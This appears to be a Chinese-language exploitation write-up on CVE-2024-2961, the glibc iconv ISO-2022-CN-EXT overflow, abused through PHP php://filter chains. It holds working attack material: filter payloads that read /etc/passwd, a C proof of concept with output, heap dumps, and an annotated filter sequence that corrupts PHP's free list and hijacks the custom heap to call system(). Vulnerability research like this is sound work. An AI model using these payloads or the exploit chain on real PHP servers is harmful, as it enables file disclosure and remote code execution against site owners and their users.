

basic
php://filter
提供一种在返回流之前对其应用转换的方法 语法如下
php://filter/[filters...]/resource=[resource]
eg. 使用convert.base64-encode编码资源内容
php://filter/convert.base64-encode/resource=/etc/passwd
返回
cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYXNoCmJpbjp4OjE6MTpiaW46L2Jpbjovc2Jpbi9u b2xvZ2luCmRhZW1vbjp4OjI6MjpkYWVtb246L3NiaW46L3NiaW4vbm9sb2dpbgphZG06eDozOjQ6 ... Yi92bnN0YXQ6L2Jpbi9mYWxzZQpyZWRpczp4OjEwMjoxMDM6cmVkaXM6L3Zhci9saWIvcmVkaXM6 L2Jpbi9mYWxzZQo=
可以添加任意数量过滤器，以|分隔
其他过滤器：
- string.upper 字符串转换为大写
- string.lower 字符串转换为小写
- string.rot13 执行一些BC加密
- convert.iconv.X.Y ，将字符集从 X 转换为 Y
一个神奇的过滤器链，在/etc/passwd前面添加Hello world!
php://filter/convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSGB2312.UTF-32| convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE| convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.IBM860.UTF16| convert.iconv.ISO-IR-143.ISO2022CNEXT|convert.base64-decode|convert.base64-encode| convert.iconv.855.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943| convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7| convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213| convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.JS.UNICODE| convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7| convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.base64-decode|convert.base64-encode| convert.iconv.855.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS| convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949|convert.base64-decode| convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2| convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.UTF8.UTF16LE| convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.ISO-8859-14.UCS2| convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.INIS.UTF16| convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode| convert.iconv.855.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213| convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.L5.UTF-32| convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode| convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90| convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.ISO2022KR.UTF16| convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7| convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode| convert.iconv.855.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010| convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7| convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.base64-decode|convert.base64-encode| convert.iconv.855.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB| convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.L6.UNICODE| convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7| convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode| convert.base64-encode|convert.iconv.855.UTF7|convert.base64-decode/resource=/etc/passwd
CVE-2024-2961
php内部从一个字符集转换到另一个字符集时，使用iconv()。linux上由glibc实现
API使用，首先打开一个转换描述符 描述符指定了输入和输出字符集
iconv_t iconv_open(const char *tocode, const char *fromcode);
然后可以使用iconv()将输入缓冲区inbuf转换为输出缓冲区outbuf中的新字符集
size_t iconv(iconv_t cd, char **restrict inbuf, size_t *restrict inbytesleft, char **restrict outbuf, size_t *restrict outbytesleft);
如果输出缓冲区不够大，iconv()将返回一个错误指示此情况，可以通过重新分配outbuf并再次调用来继续转换
转换为 ISO-2022-CN-EXT 时出现越界写入
ISO-2022-CN-EXT是一系列字符集的集合：当需要编码一个字符时，它会选取适当的字符集，并发出一个转义序列以指示解码器需切换到该字符集
下面代码负责转义，由三个if块组成，每个块向outbuf（由outptr指向）写入不同的转义序列。如果你查看第一个if[1]，你会发现它前面有一个额外的if()块来检查输出缓冲区是否足够大以容纳四个字符。而其他两个if()[2][3]则没有这个检查。因此，转义序列可能会越界写入
// iconvdata/iso-2022-cn-ext.c /* See whether we have to emit an escape sequence. */ if (set != used) { /* First see whether we announced that we use this character set. */ if ((used & SO_mask) != 0 && (ann & SO_ann) != (used << 8)) // [1] { const char *escseq; if (outptr + 4 > outend) // <-------------------- BOUND CHECK { result = __GCONV_FULL_OUTPUT; break; } assert(used >= 1 && used <= 4); escseq = ")A\0\0)G)E" + (used - 1) * 2; *outptr++ = ESC; *outptr++ = '$'; *outptr++ = *escseq++; *outptr++ = *escseq++; ann = (ann & ~SO_ann) | (used << 8); } else if ((used & SS2_mask) != 0 && (ann & SS2_ann) != (used << 8)) // [2] { const char *escseq; // <-------------------- NO BOUND CHECK assert(used == CNS11643_2_set); /* XXX */ escseq = "*H"; *outptr++ = ESC; *outptr++ = '$'; *outptr++ = *escseq++; *outptr++ = *escseq++; ann = (ann & ~SS2_ann) | (used << 8); } else if ((used & SS3_mask) != 0 && (ann & SS3_ann) != (used << 8)) // [3] { const char *escseq; // <-------------------- NO BOUND CHECK assert((used >> 5) >= 3 && (used >> 5) <= 7); escseq = "+I+J+K+L+M" + ((used >> 5) - 3) * 2; *outptr++ = ESC; *outptr++ = '$'; *outptr++ = *escseq++; *outptr++ = *escseq++; ann = (ann & ~SS3_ann) | (used << 8); } }
可以使用如“劄”、“䂚”、“峛”或“湿”等特殊字符，导致1-3字节的一出 值如下：
$*H [24 2A 48]
$+I [24 2B 49]
$+J [24 2B 4A]
$+K [24 2B 4B]
$+L [24 2B 4C]
$+M [24 2B 4D]
poc
/* $ gcc -o poc ./poc.c && ./poc */ #include <stdio.h> #include <string.h> #include <iconv.h> // hexdump 函数的实现 void hexdump(void *ptr, int buflen) { unsigned char *buf = (unsigned char*)ptr; int i; for (i = 0; i < buflen; i++) { if (i % 16 == 0) printf("\n%06x: ", i); printf("%02x ", buf[i]); } printf("\n"); } void main() { iconv_t cd = iconv_open("ISO-2022-CN-EXT", "UTF-8"); char input[0x10] = "AAAAA劄"; char output[0x10] = {0}; char *pinput = input; char *poutput = output; // Same size for input and output buffer: 8 bytes size_t sinput = strlen(input); size_t soutput = sinput; iconv(cd, &pinput, &sinput, &poutput, &soutput); printf("Remaining bytes (should be > 0): %zd\n", soutput); hexdump(output, 0x10); }
存在漏洞的表现如下 尽管指定了输出最多8字节，但实际写入了9字节
ubuntu@VM-16-7-ubuntu:~/iconv$ ./poc Remaining bytes (should be > 0): -1 000000: 41 41 41 41 41 1b 24 2a 48 00 00 00 00 00 00 00
修复后如下
ayoung@ayoung:~/iconv$ ./poc Remaining bytes (should be > 0): 3 000000: 41 41 41 41 41 00 00 00 00 00 00 00 00 00 00 00
php堆
php中内存申请和释放使用emalloc和efree
_zend_mm_chunk如下，作为大的管理结构
struct _zend_mm_chunk { zend_mm_heap *heap; zend_mm_chunk *next; zend_mm_chunk *prev; uint32_t free_pages; /* number of free pages */ uint32_t free_tail; /* number of free pages at the end of chunk */ uint32_t num; char reserve[64 - (sizeof(void*) * 3 + sizeof(uint32_t) * 3)]; zend_mm_heap heap_slot; /* used only in main chunk */ zend_mm_page_map free_map; /* 512 bits or 64 bytes */ zend_mm_page_info map[ZEND_MM_PAGES]; /* 2 KB = 512 * 4 */ };
堆管理结构体 _zend_mm_heap如下，free_slot 存放空闲chunk链表 类似tcache 无数量限制
/* * Memory is retrieved from OS by chunks of fixed size 2MB. * Inside chunk it's managed by pages of fixed size 4096B. * So each chunk consists from 512 pages. * The first page of each chunk is reserved for chunk header. * It contains service information about all pages. * * free_pages - current number of free pages in this chunk * * free_tail - number of continuous free pages at the end of chunk * * free_map - bitset (a bit for each page). The bit is set if the corresponding * page is allocated. Allocator for "large sizes" may easily find a * free page (or a continuous number of pages) searching for zero * bits. * * map - contains service information for each page. (32-bits for each * page). * usage: * (2 bits) * FRUN - free page, * LRUN - first page of "large" allocation * SRUN - first page of a bin used for "small" allocation * * lrun_pages: * (10 bits) number of allocated pages * * srun_bin_num: * (5 bits) bin number (e.g. 0 for sizes 0-2, 1 for 3-4, * 2 for 5-8, 3 for 9-16 etc) see zend_alloc_sizes.h */ struct _zend_mm_heap { #if ZEND_MM_CUSTOM int use_custom_heap; #endif #if ZEND_MM_STORAGE zend_mm_storage *storage; #endif #if ZEND_MM_STAT size_t size; /* current memory usage */ size_t peak; /* peak memory usage */ #endif zend_mm_free_slot *free_slot[ZEND_MM_BINS]; /* free lists for small sizes */ #if ZEND_MM_STAT || ZEND_MM_LIMIT size_t real_size; /* current size of allocated pages */ #endif #if ZEND_MM_STAT size_t real_peak; /* peak size of allocated pages */ #endif #if ZEND_MM_LIMIT size_t limit; /* memory limit */ int overflow; /* memory overflow flag */ #endif zend_mm_huge_list *huge_list; /* list of huge allocated blocks */ zend_mm_chunk *main_chunk; zend_mm_chunk *cached_chunks; /* list of unused chunks */ int chunks_count; /* number of allocated chunks */ int peak_chunks_count; /* peak number of allocated chunks for current request */ int cached_chunks_count; /* number of cached chunks */ double avg_chunks_count; /* average number of chunks allocated per request */ int last_chunks_delete_boundary; /* number of chunks after last deletion */ int last_chunks_delete_count; /* number of deletion over the last boundary */ #if ZEND_MM_CUSTOM union { struct { void *(*_malloc)(size_t); void (*_free)(void*); void *(*_realloc)(void*, size_t); } std; struct { void *(*_malloc)(size_t ZEND_FILE_LINE_DC ZEND_FILE_LINE_ORIG_DC); void (*_free)(void* ZEND_FILE_LINE_DC ZEND_FILE_LINE_ORIG_DC); void *(*_realloc)(void*, size_t ZEND_FILE_LINE_DC ZEND_FILE_LINE_ORIG_DC); } debug; } custom_heap; HashTable *tracked_allocs; #endif };
在申请小内存时（<=0xc00）会通过宏ZEND_MM_SMALL_SIZE_TO_BIN计算bin_num
- size<=0x40 对应
(size - !!size) >> 3eg 0x18->2 - 0x40<size<0xc00 对应后续计算 eg 0x100->15
#define ZEND_MM_SMALL_SIZE_TO_BIN(size) zend_mm_small_size_to_bin(size) static zend_always_inline int zend_mm_small_size_to_bin(size_t size) { #if 0 ... #else unsigned int t1, t2; if (size <= 64) { /* we need to support size == 0 ... */ return (size - !!size) >> 3; } else { t1 = size - 1; t2 = zend_mm_small_size_to_bit(t1) - 3; t1 = t1 >> t2; t2 = t2 - 3; t2 = t2 << 2; return (int)(t1 + t2); } #endif } /* higher set bit number (0->N/A, 1->1, 2->2, 4->3, 8->4, 127->7, 128->8 etc) */ static zend_always_inline int zend_mm_small_size_to_bit(int size) { ... int n = 16; if (size <= 0x00ff) {n -= 8; size = size << 8;} if (size <= 0x0fff) {n -= 4; size = size << 4;} if (size <= 0x3fff) {n -= 2; size = size << 2;} if (size <= 0x7fff) {n -= 1;} return n; ... }
对应内存块递增关系如下，64对应7

源码头文件zend_alloc_sizes.h中有定义：
序号、chunk大小、数量、页面数
/* num, size, count, pages */ #define ZEND_MM_BINS_INFO(_, x, y) \ _( 0, 8, 512, 1, x, y) \ _( 1, 16, 256, 1, x, y) \ _( 2, 24, 170, 1, x, y) \ _( 3, 32, 128, 1, x, y) \ _( 4, 40, 102, 1, x, y) \ _( 5, 48, 85, 1, x, y) \ _( 6, 56, 73, 1, x, y) \ _( 7, 64, 64, 1, x, y) \ _( 8, 80, 51, 1, x, y) \ _( 9, 96, 42, 1, x, y) \ _(10, 112, 36, 1, x, y) \ _(11, 128, 32, 1, x, y) \ _(12, 160, 25, 1, x, y) \ _(13, 192, 21, 1, x, y) \ _(14, 224, 18, 1, x, y) \ _(15, 256, 16, 1, x, y) \ _(16, 320, 64, 5, x, y) \ _(17, 384, 32, 3, x, y) \ _(18, 448, 9, 1, x, y) \ _(19, 512, 8, 1, x, y) \ _(20, 640, 32, 5, x, y) \ _(21, 768, 16, 3, x, y) \ _(22, 896, 9, 2, x, y) \ _(23, 1024, 8, 2, x, y) \ _(24, 1280, 16, 5, x, y) \ _(25, 1536, 8, 3, x, y) \ _(26, 1792, 16, 7, x, y) \ _(27, 2048, 8, 4, x, y) \ _(28, 2560, 8, 5, x, y) \ _(29, 3072, 4, 3, x, y) #endif /* ZEND_ALLOC_SIZES_H */
之后如果对应free_slot不为空，取出chunk
static zend_always_inline void *zend_mm_alloc_small(zend_mm_heap *heap, int bin_num ZEND_FILE_LINE_DC ZEND_FILE_LINE_ORIG_DC) { ... if (EXPECTED(heap->free_slot[bin_num] != NULL)) { zend_mm_free_slot *p = heap->free_slot[bin_num]; heap->free_slot[bin_num] = p->next_free_slot; return p; } else { return zend_mm_alloc_small_slow(heap, bin_num ZEND_FILE_LINE_RELAY_CC ZEND_FILE_LINE_ORIG_RELAY_CC); } }
如果发现free_slot位空 则通过zend_mm_alloc_small_slow()申请对应内存页
看了一下 该函数内部调用链，最终调用mmap申请内存页 大小为2*0x1000*0x1000
zend_mm_alloc_small_slow() zend_mm_alloc_pages() zend_mm_chunk_alloc() zend_mm_chunk_alloc_int() zend_mm_mmap() mmap()
申请完做各种初始化 最后把页面切分 依次放入free_slot 可以看出顺序是从内存页的开始一直遍历直到碰到end
/* create a linked list of elements from 1 to last */ end = (zend_mm_free_slot*)((char*)bin + (bin_data_size[bin_num] * (bin_elements[bin_num] - 1))); heap->free_slot[bin_num] = p = (zend_mm_free_slot*)((char*)bin + bin_data_size[bin_num]); do { p->next_free_slot = (zend_mm_free_slot*)((char*)p + bin_data_size[bin_num]); ... p = (zend_mm_free_slot*)((char*)p + bin_data_size[bin_num]); } while (p != end); /* terminate list using NULL */ p->next_free_slot = NULL;

php filter结构
_php_stream_fill_read_buffer()函数从底层流（文件/网络/内存）读取数据并填充到缓冲区，并调用对应的过滤器
pwndbg> bt #0 0x0000557f7ca6c565 in _php_stream_fill_read_buffer (stream=stream@entry=0x7f0c5ca7f2a0, size=size@entry=9002) at /root/php-8.1.2/main/streams/streams.c:576 #1 0x0000557f7ca6c909 in _php_stream_read (stream=stream@entry=0x7f0c5ca7f2a0, buf=<optimized out>, buf@entry=0x7f0c5ca85018 "", size=size@entry=9002) at /root/php-8.1.2/main/streams/streams.c:718 #2 0x0000557f7ca6df51 in _php_stream_copy_to_mem (src=src@entry=0x7f0c5ca7f2a0, maxlen=0, persistent=persistent@entry=0) at /root/php-8.1.2/main/streams/streams.c:1518 #3 0x0000557f7c9ed4bb in zif_file_get_contents (execute_data=0x7f0c5ca140d0, return_value=0x7f0c5ca140a0) at /root/php-8.1.2/ext/standard/file.c:575 #4 0x0000557f7c96b01c in phar_file_get_contents (execute_data=0x7f0c5ca140d0, return_value=0x7f0c5ca140a0) at /root/php-8.1.2/ext/phar/func_interceptors.c:227 #5 0x0000557f7cb2651a in ZEND_DO_ICALL_SPEC_RETVAL_USED_HANDLER () at /root/php-8.1.2/Zend/zend_vm_execute.h:1297 #6 execute_ex (ex=0x7f0c5ca7f2a0) at /root/php-8.1.2/Zend/zend_vm_execute.h:55314 #7 0x0000557f7cb2cb94 in zend_execute (op_array=0x7f0c5ca89000, return_value=0x0) at /root/php-8.1.2/Zend/zend_vm_execute.h:59673 #8 0x0000557f7cabf526 in zend_execute_scripts (type=type@entry=8, retval=retval@entry=0x0, file_count=file_count@entry=3) at /root/php-8.1.2/Zend/zend.c:1761 #9 0x0000557f7ca58a02 in php_execute_script (primary_file=primary_file@entry=0x7ffda4a44000) at /root/php-8.1.2/main/main.c:2535 #10 0x0000557f7cba22e4 in do_cli (argc=2, argv=0x557f9d9d2890) at /root/php-8.1.2/sapi/cli/php_cli.c:965 #11 0x0000557f7c83e073 in main (argc=2, argv=0x557f9d9d2890) at /root/php-8.1.2/sapi/cli/php_cli.c:1367 #12 0x00007f0c5edf4d90 in ?? () from /lib/x86_64-linux-gnu/libc.so.6 #13 0x00007f0c5edf4e40 in __libc_start_main () from /lib/x86_64-linux-gnu/libc.so.6 #14 0x0000557f7c83f1d5 in _start ()
调用过滤器处如下
/* wind the handle... */ for (filter = stream->readfilters.head; filter; filter = filter->next) { status = filter->fops->filter(stream, filter, brig_inp, brig_outp, NULL, flags); ... }
这里过滤器操作函数指针定义如下
typedef struct _php_stream_filter_ops { php_stream_filter_status_t (*filter)( php_stream *stream, php_stream_filter *thisfilter, php_stream_bucket_brigade *buckets_in, php_stream_bucket_brigade *buckets_out, size_t *bytes_consumed, int flags ); void (*dtor)(php_stream_filter *thisfilter); const char *label; } php_stream_filter_ops;
// zlib_filters.c static const php_stream_filter_ops php_zlib_inflate_ops = { php_zlib_inflate_filter, php_zlib_inflate_dtor, "zlib.inflate" }; // filters.c static const php_stream_filter_ops chunked_filter_ops = { php_chunked_filter, php_chunked_dtor, "dechunk" }; // iconv.c static const php_stream_filter_ops php_iconv_stream_filter_ops = { php_iconv_stream_filter_do_filter, php_iconv_stream_filter_cleanup, "convert.iconv.*" };
php filter每次会根据内容创建堆块，作为bucket，并链入php_stream_bucket_brigade结构
经典的处理方式，php_stream_bucket_new()创建新bucket，php_stream_bucket_append()链接
struct _php_stream_bucket { php_stream_bucket *next, *prev; php_stream_bucket_brigade *brigade; char *buf; size_t buflen; /* if non-zero, buf should be pefreed when the bucket is destroyed */ uint8_t own_buf; uint8_t is_persistent; /* destroy this struct when refcount falls to zero */ int refcount; }; struct _php_stream_bucket_brigade { php_stream_bucket *head, *tail; };
/* read a chunk into a bucket */ justread = stream->ops->read(stream, chunk_buf, stream->chunk_size); if (justread < 0 && stream->writepos == stream->readpos) { efree(chunk_buf); return FAILURE; } else if (justread > 0) { bucket = php_stream_bucket_new(stream, chunk_buf, justread, 0, 0); /* after this call, bucket is owned by the brigade */ php_stream_bucket_append(brig_inp, bucket); flags = stream->eof ? PSFS_FLAG_FLUSH_CLOSE : PSFS_FLAG_NORMAL; } else { flags = stream->eof ? PSFS_FLAG_FLUSH_CLOSE : PSFS_FLAG_FLUSH_INC; }
eg. 一个包含/etc/passwd的3桶接力队列

接着在这上面应用过滤器，会按顺序处理各个bucket

问题：只创建一个bucket
解决：zlib.inflate
该过滤器接收流并进行解压缩处理，会分配0x8000字节（8页）的缓冲区并将流膨胀至其中。如果这个缓冲区不足以容纳全部数据，将再创建一个相同大小的新缓存区域以存储剩余部分；若前两者还不够用，还会继续增加。每次扩充出来的区块都会加入各自的bucket中。
inflate()位于libz.so.1.2.11库，函数调用php中的php_zlib_alloc()函数，内部申请0x8000大小chunk
─────────────────────────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]───────────────────────────────────────────────────────────────────────────────── 0x7f32caeb76d6 <inflate+2038> mov esi, 1 ESI => 1 0x7f32caeb76db <inflate+2043> mov qword ptr [rsp], r11 0x7f32caeb76df <inflate+2047> mov edx, 1 EDX => 1 0x7f32caeb76e4 <inflate+2052> mov rdi, qword ptr [rax + 0x50] 0x7f32caeb76e8 <inflate+2056> shl esi, cl ► 0x7f32caeb76ea <inflate+2058> call qword ptr [rax + 0x40] <php_zlib_alloc> rdi: 0x7f32c886f0a0 —▸ 0x7f32c8891081 ◂— 0 rsi: 0x8000 rdx: 1 0x7f32caeb76ed <inflate+2061> mov r11, qword ptr [rsp] 0x7f32caeb76f1 <inflate+2065> test rax, rax 0x7f32caeb76f4 <inflate+2068> mov qword ptr [rbx + 0x48], rax 0x7f32caeb76f8 <inflate+2072> mov rdi, rax 0x7f32caeb76fb <inflate+2075> jne inflate+1641 <inflate+1641> ─────────────[ STACK ]─────────── ... ───────────[ BACKTRACE ]─────────── ► 0 0x7f32caeb76ea inflate+2058 1 0x559edb4edc7e php_zlib_inflate_filter+222 2 0x559edb66c567 _php_stream_fill_read_buffer+311 3 0x559edb66c909 _php_stream_read+185 4 0x559edb66df51 _php_stream_copy_to_mem+385 5 0x559edb5ed4bb zif_file_get_contents+363 6 0x559edb56b01c phar_file_get_contents+236 7 0x559edb72651a execute_ex+13434

分块
HTTP-chunked编码
先一个ASCII十六进制表示大小，一个换行符
然后是对应大小的数据块，再一个换行符
dechunk即进行相反的操作，对HTTP-chunked编码的块进行解码

但是下面这种方法来构造多个chunk行不通
因为尽管bucket被单独处理，但并不独立：所有bucket被解析成一个大stream，当dechunk过滤器处理流的时候，会读取第一个bucket的大小，之后读到大小为零的值，则会停止解析，不会处理到第二个bucket。
 如果读到0，就直接结束解析
如果读到0，就直接结束解析
case CHUNK_SIZE_LF: if (*p == '\n') { p++; if (data->chunk_size == 0) { /* last chunk */ data->state = CHUNK_TRAILER; continue; } else if (p == end) { data->state = CHUNK_BODY; return out_len; } } else { data->state = CHUNK_ERROR; continue; } ... case CHUNK_TRAILER: /* ignore trailer */ p = end; continue;
绕过方法：在大小前面填充大量的0（不会增加size同时填充了长度，最后则不需要使用0结束）

... if (*p >= '0' && *p <= '9') { data->chunk_size = (data->chunk_size * 16) + (*p - '0'); } ...
更详细的代码记录：
dechunk 解码chunked编码数据 相关代码如下
static const php_stream_filter_ops chunked_filter_ops = { php_chunked_filter, php_chunked_dtor, "dechunk" };
php_chunked_filter()中php_dechunk()函数识别编码数据块大小 调整bucket->buflen
使用iconv进行编码转换 涉及函数指针php_iconv_stream_filter_do_filter
static const php_stream_filter_ops php_iconv_stream_filter_ops = { php_iconv_stream_filter_do_filter, php_iconv_stream_filter_cleanup, "convert.iconv.*" };
先php_stream_bucket_unlink()解链
php_iconv_stream_filter_append_bucket() 调用iconv()进行编码转换 内部根据bucket->buflen重新申请内存 并将处理结果存储到out_buf
调用php_stream_bucket_new()，out_buf作为内容创建新的bucket，最后再用php_stream_bucket_append()附加到buckets_out中
并且，对取出处理的bucket，采取释放内存操作php_stream_bucket_delref()
/* {{{ php_iconv_stream_filter_do_filter */ static php_stream_filter_status_t php_iconv_stream_filter_do_filter( php_stream *stream, php_stream_filter *filter, php_stream_bucket_brigade *buckets_in, php_stream_bucket_brigade *buckets_out, size_t *bytes_consumed, int flags) { php_stream_bucket *bucket = NULL; size_t consumed = 0; php_iconv_stream_filter *self = (php_iconv_stream_filter *)Z_PTR(filter->abstract); while (buckets_in->head != NULL) { bucket = buckets_in->head; php_stream_bucket_unlink(bucket); // 解链 if (php_iconv_stream_filter_append_bucket(self, stream, filter, buckets_out, bucket->buf, bucket->buflen, &consumed, php_stream_is_persistent(stream)) != SUCCESS) { goto out_failure; } php_stream_bucket_delref(bucket); } if (flags != PSFS_FLAG_NORMAL) { if (php_iconv_stream_filter_append_bucket(self, stream, filter, buckets_out, NULL, 0, &consumed, php_stream_is_persistent(stream)) != SUCCESS) { goto out_failure; } } if (bytes_consumed != NULL) { *bytes_consumed = consumed; } return PSFS_PASS_ON; out_failure: if (bucket != NULL) { php_stream_bucket_delref(bucket); } return PSFS_ERR_FATAL; } /* }}} */
php_iconv_stream_filter_append_bucket()函数代码如下
/* {{{ php_iconv_stream_filter_append_bucket */ static int php_iconv_stream_filter_append_bucket( php_iconv_stream_filter *self, php_stream *stream, php_stream_filter *filter, php_stream_bucket_brigade *buckets_out, const char *ps, size_t buf_len, size_t *consumed, int persistent) { php_stream_bucket *new_bucket; char *out_buf = NULL; size_t out_buf_size; char *pd, *pt; size_t ocnt, prev_ocnt, icnt, tcnt; size_t initial_out_buf_size; if (ps == NULL) { initial_out_buf_size = 64; icnt = 1; } else { initial_out_buf_size = buf_len; icnt = buf_len; } out_buf_size = ocnt = prev_ocnt = initial_out_buf_size; out_buf = pemalloc(out_buf_size, persistent); pd = out_buf; if (self->stub_len > 0) { pt = self->stub; tcnt = self->stub_len; while (tcnt > 0) { if (iconv(self->cd, &pt, &tcnt, &pd, &ocnt) == (size_t)-1) { // ... } } prev_ocnt = ocnt; } memmove(self->stub, pt, tcnt); self->stub_len = tcnt; } while (icnt > 0) { if ((ps == NULL ? iconv(self->cd, NULL, NULL, &pd, &ocnt): iconv(self->cd, (char **)&ps, &icnt, &pd, &ocnt)) == (size_t)-1) { // ... } } else { if (ps == NULL) { break; } } prev_ocnt = ocnt; } // 缓冲区大小 大于 剩余可用空间大小 // 创建新bucket 否则未使用 释放out_buf if (out_buf_size > ocnt) { if (NULL == (new_bucket = php_stream_bucket_new(stream, out_buf, (out_buf_size - ocnt), 1, persistent))) { goto out_failure; } php_stream_bucket_append(buckets_out, new_bucket); } else { pefree(out_buf, persistent); } *consumed += buf_len - icnt; return SUCCESS; out_failure: pefree(out_buf, persistent); return FAILURE; }
思路：通过分配0x100chunk，先连续3个chunk，再反向链入free_slot，之后通过溢出修改next指针低字节，伪造free_slot链表，做任意地址申请

通过套娃的方式构造HTTP-chunked数据，起到控制指定大小堆块申请和释放的效果：配合dechunk+iconv.convert.xxxx.xxx，会先申请当前数据长度对应堆块，之后处理嵌套数据时，则会释放上一次申请的堆块

关于poc中的latin1： convert.iconv.x.x过滤器调用的是php_iconv_stream_filter_do_filter函数，进过分析发现，在该函数中输出的buffer会根据buflen对堆进行重新分配。例如，输出的buffer是一个0x8000的堆，但是buflen=0x100，那么就会根据该长度申请一个新的堆作为iconv的输出。经过iconv编码转换，由于输入输出的编码相同，所以输出数据不变，但堆的大小会发生变化。
通过上述分析可以发现，在PoC中组合使用dechunk和convert.iconv.latin1.latin1的原因是因为这样可以控制获取任意大小的堆。通过dechunk将buflen设置为0x8000以下的任意值，然后使用convert.iconv.latin1.latin1把堆修改为相应的size。除了可以分配任意size的堆，还可以把任意size的堆放入free_slot中。
通过溢出修改next_free_slot指针 内存图如下
0x7f5aaba8c300处低字节被改为0x48
则只需要在对应位置布置好指向_zend_mm_heap结构的指针 即可覆盖free_slot扩展任意地址申请的能力
0x7f5aaba8c200: 0x00007f5aaba8c300 0x0000000000000000 0x7f5aaba8c210: 0x0000000000000000 0x0000000000000000 0x7f5aaba8c220: 0x0000000000000000 0x0000000000000000 0x7f5aaba8c230: 0x0000000000000000 0x0000000000000000 0x7f5aaba8c240: 0x0000000000000000 0x0000000000000000 0x7f5aaba8c250: 0x0000000000000000 0x0000000000000000 0x7f5aaba8c260: 0x0000000000000000 0x0000000000000000 0x7f5aaba8c270: 0x0000000000000000 0x0000000000000000 0x7f5aaba8c280: 0x0000000000000000 0x0000000000000000 0x7f5aaba8c290: 0x0000000000000000 0x0000000000000000 0x7f5aaba8c2a0: 0x0000000000000000 0x0000000000000000 0x7f5aaba8c2b0: 0x0000000000000000 0x0000000000000000 0x7f5aaba8c2c0: 0x0000000000000000 0x0000000000000000 0x7f5aaba8c2d0: 0x0000000000000000 0x0000000000000000 0x7f5aaba8c2e0: 0x0000000000000000 0x0000000000000000 0x7f5aaba8c2f0: 0x0000000000000000 0x2a241b0000000000 0x7f5aaba8c300: 0x00007f5aaba8c148 0x4242424242424242 0x7f5aaba8c310: 0x4242424242424242 0x4242424242424242
pages = ( step4 * 3 + step4_pwn + step4_custom_heap + step4_use_custom_heap + step3_overflow # + pad * self.pad + step1 * 3 + step2_write_ptr + step2 * 2 ) filters = [ # Create buckets "zlib.inflate", "zlib.inflate", ### step1 申请3个0x100 A B C # Step 0: Setup heap "dechunk", "convert.iconv.L1.L1", ### step1 释放3个0x100 C->B->A; ### step2_write_ptr 申请C 布置指针 ### step2 申请2个0x100 B A # Step 1: Reverse FL order "dechunk", "convert.iconv.L1.L1", ### step2_write_ptr 释放C ### step2 释放B A；free_slot：A->B->C # Step 2: Put fake pointer and make FL order back to normal "dechunk", "convert.iconv.L1.L1", ### step3_overflow 申请0x100 A，越界写入0x48 ## free_slot：B->C_0x48->_zend_mm_heap # Step 3: Trigger overflow "dechunk", "convert.iconv.UTF-8.ISO-2022-CN-EXT", ### step3_overflow 释放A;free_slot：A->B->C_0x48->_zend_mm_heap ### step4 申请3个0x100 chunk A B C_0x48 ### step4_pwn 申请0x100 控制0x18和0x140 freeslot ### step4_custom_heap 申请0x18 chunk 布置system指针 ### step4_use_custom_heap 申请0x140，内存位于_zend_mm_heap;写入命令并覆盖custom_heap标志位。调用php_stream_bucket_delref释放处理的bucket时调用free，触发system(xxx) # Step 4: Allocate at arbitrary address and change zend_mm_heap "convert.quoted-printable-decode", "convert.iconv.L1.L1", ]
poc
